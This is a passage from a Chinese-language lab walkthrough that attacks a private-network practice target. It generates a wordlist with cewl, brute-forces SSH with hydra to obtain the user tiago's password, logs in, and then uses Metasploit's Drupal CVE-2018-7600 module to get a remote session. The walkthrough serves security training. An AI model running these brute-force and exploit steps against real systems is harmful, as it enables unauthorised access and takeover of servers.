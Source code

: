 ```
cewl http://192.168.190.140:1898/ -w password.txt
```

####         22.接下来使用hydra工具来进行爆破，爆破之后成功得到了用户名所对应的密码——Virgulino。

```
hydra -l tiago -P password.txt 192.168.190.140 ssh
```

####         23.用爆破获得的密码成功登录。

```
ssh tiago@192.168.190.140
```

####         24.但是发现此时用户的权限是低权限，因此还要对用户进行提权。

####         25.接下来尝试第二种思路，网上查找对应版本的漏洞。

####         26.通过搜索查找到了一个远程代码执行漏洞（靶机的版本在漏洞的影响范围内）——CVE-2018-7600。

####         27.接下来使用msfconsole工具来搜索对应的漏洞并进行漏洞利用。

```
msfconsole
```

####         28.搜索对应版本，成功搜索出了8个exp。

```
search Drupal
```

####         29.因为刚刚搜索到的漏洞是CVE-2018-7600，所以我们选择利用2018年的漏洞，也就是编号为1的exp。

####         30.查看需要进行配置的参数。

```
show options
```

####         31.进行参数配置。

```
set rhosts 192.168.190.140
```

```
set rport 1898
```

####         32.执行run命令后，成功连接到了靶机。

```
run
```
